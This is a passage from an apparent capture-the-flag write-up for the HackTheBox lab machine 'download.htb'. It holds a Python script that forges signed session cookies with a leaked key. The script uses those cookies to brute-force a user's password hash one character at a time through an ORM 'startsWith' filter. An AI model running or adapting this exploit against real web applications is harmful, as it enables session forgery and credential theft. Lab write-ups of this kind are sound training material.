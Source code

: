 With this updated information, I modified the script to perform the following:

-   Implement an additional loop over a range of 32, considering that hex strings are consistently 32 bytes.
-   Filter any responses that don't match a response length of 3868

```python
#!/usr/bin/env python

import re
import sys

import requests
import urllib3
import subprocess
import os
import json


username = ""
password = ""
url = "http://download.htb/home/"
proxies = {"http": "http://127.0.0.1:8080"}

charset_hex = "abcdef0123456789"
# charset_hex = "a"

params = {"name": "value"}
data = {"name": "value"}
try:
    # Hex is always 128 bits
    for i in range(32):
        for char in charset_hex:
            # print(f"Testing char: {char}")
            temp_pass = password + char
            user_obj = {
                "user": {
                    "username": {"contains": "WESLEY"},
                    "password": {"startsWith": temp_pass},
                }
            }

            with open("user_obj.json", "w") as f:
                f.write(json.dumps(user_obj))

            cmd = [
                "/home/kali/Tools/cookie-monster/bin/cookie-monster.js",
                "-e",
                "-f",
                "user_obj.json",
                "-k",
                "8929874489719802418902487651347865819634518936754",
                "-n",
                "download_session",
            ]
            cookieMonster_out = subprocess.check_output(cmd, text=True)
            # print(cookieMonster_out)
            data_cookie_pattern = r"Data Cookie: download_session=([^[\]+]+)"
            signature_cookie_pattern = (
                r"Signature Cookie: download_session\.sig=([^[\]+]+)"
            )

            data_cookie_match = re.search(data_cookie_pattern, cookieMonster_out)
            signature_cookie_match = re.search(
                signature_cookie_pattern, cookieMonster_out
```